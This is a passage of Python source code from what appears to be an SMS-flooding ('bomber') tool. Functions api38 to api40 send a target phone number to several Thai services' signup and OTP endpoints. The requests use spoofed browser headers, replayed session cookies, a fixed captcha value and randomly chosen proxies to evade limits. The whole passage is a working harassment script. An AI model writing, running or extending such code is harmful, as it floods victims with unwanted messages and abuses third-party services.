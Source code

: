 	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api38(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://chobrod.com/register",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8","user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36","x-requested-with": "XMLHttpRequest","sec-fetch-site": "same-origin","sec-fetch-mode": "cors","sec-fetch-dest": "empty","cookie": ".AspNetCore.Antiforgery.9TtSrW0hzOs=CfDJ8AbF96Heci1NnsIpfhXCcZq_1dcnjr3wJH7IbyuvXx7JO98q0olmE5QQ09sRX3ts4f0snXBgp8hKG68ehlSJxRKG2BLY2Wj9z-AV6rmiU8RDNlEhHozm-R_ZGKSEbQSycbX455ffFuyBSw7fAUE-9M8; CHOBROD_SERVERID=051_30886; referrerCheckingGA=https://www.google.com/; _ga=GA1.2.684081299.1664700698; _gid=GA1.2.1610639645.1664700698; _gat_UA-88971742-1=1; sidchobrod=m08SOd7CyVuruAdw6iJ6fiZ9Sdm1V90G; usidchobrod=EENsATLoK7OnvSeYvnOuhOEJfl2zllCK; G_ENABLED_IDPS=google; _fbp=fb.1.1664700699743.423276722; GuildId=615af95c-99ca-48ba-bf8c-39a6638a708e; _ga_D11BPJ59QV=GS1.1.1664700697.1.1.1664700735.0.0.0"},data=f"ReturnUrl=%2F&UserName={phone}&Displayname=asssdad+sadass&CityId=1&&Captcha=F9UR",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")

def api39(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = get(f"https://bkk-api.ks-it.co/Vcode/register?country_code=66&phone={phone}&sms_type=1&user_type=2&app_version=4.3.25&device_id=79722530562d973f&app_device_param=%7B%22os%22%3A%22Android%22%2C%22app_version%22%3A%224.3.25%22%2C%22model%22%3A%22A37f%22%2C%22os_ver%22%3A%225.1.1%22%2C%22ble%22%3A%220%22%7D&language=th&token=")
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api40(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api.fairdee.co.th/profile/request-otp",headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36","cookie": "mp_184c9deb723214f5772e9320157cb5b9_mixpanel=%7B%22distinct_id%22%3A%20%22183bbb5007ddf-0261f79d6d1bad-5771031-1fa400-183bbb5007e6f9%22%2C%22%24device_id%22%3A%20%22183bbb5007ddf-0261f79d6d1bad-5771031-1fa400-183bbb5007e6f9%22%2C%22%24search_engine%22%3A%20%22google%22%2C%22%24initial_referrer%22%3A%20%22https%3A%2F%2Fwww.google.com%2F%22%2C%22%24initial_referring_domain%22%3A%20%22www.google.com%22%7D; WZRK_G=a566c075343f4d118e2b0f35111f6f22; WZRK_S_69W-676-R46Z=%7B%22p%22%3A1%2C%22s%22%3A1665301546%2C%22t%22%3A1665301545%7D; _ga=GA1.3.837932271.1665301552; _gid=GA1.3.1240970639.1665301552; _gat=1; _gcl_au=1.1.1486581940.1665301553; _gat_gtag_UA_116460668_3=1; ajs_anonymous_id=578a9b90-fec5-409e-9b9e-60461e79d2a8; _fbp=fb.2.1665301553007.478015998","accept": "application/json, text/plain, */*"},json={"username":phone,"username_type":"phone","intent":"signup","is_email_otp":'false'},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	